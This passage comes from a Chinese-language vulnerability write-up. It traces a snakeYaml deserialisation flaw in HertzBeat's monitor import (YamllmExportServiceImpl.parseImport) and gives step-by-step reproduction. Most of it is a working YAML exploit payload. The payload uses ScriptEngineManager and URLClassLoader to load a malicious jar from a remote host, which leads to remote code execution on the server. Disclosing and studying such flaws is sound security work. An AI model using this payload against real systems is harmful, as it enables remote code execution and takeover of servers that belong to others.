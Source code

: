![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250415175142817.png)

跟进到YamllmExportServiceImpl.parseImport，snakeYaml反序列化

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250415175252804.png)

## 漏洞复现

登录到HertzBeat后台，可以选择左边任意一个监控，选择导入监控

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250415175623107.png)

没有模板的话，随便新建一个监控然后导出

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250415180146912.png)

随便修改一个字段的值为snakeYaml反序列化的payload就能触发漏洞

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: null
    description: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://127.0.0.1:8888/EvilServiceScriptEngineFactory_jdk8.jar"]]]]
    host: Evil
    intervals: 60
    name: MYSQL_Evil
    status: 1
    tags:
    - 1
    - 2
  params:
  - field: host
    type: 1
    value: Evil
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: Evil
  - field: username
    type: 1
    value: admin
  - field: password
    type: 2
    value: 1VoUqkaf3xVudnLjC1gtzw==
```
